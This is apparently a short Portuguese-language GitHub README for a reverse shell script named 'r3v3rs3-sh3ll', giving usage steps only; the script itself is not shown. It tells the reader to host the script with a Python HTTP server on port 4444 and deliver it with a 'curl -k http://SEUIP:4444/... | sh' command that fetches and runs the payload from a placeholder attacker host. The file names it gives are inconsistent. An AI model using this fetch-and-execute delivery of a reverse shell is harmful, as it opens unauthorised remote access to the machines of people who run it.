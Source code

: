 # r3v3rs3-sh3ll

Reverse shell.



- chmod +x r33rs3-sh3ll.sh.sh
./r3v3rs3-sh3ll.sh

pode ser utilizo levantando um servidor python e chamando com curl

- python3 -m http.server 4444

- curl -k http://SEUIP:4444/r33rs3-sh3ll.sh.sh | sh

![image](https://github.com/carlosalbertotuma/r3v3rs3-sh3ll/assets/13341724/f3c14b08-f455-4b99-ade3-c73364fbbea1)
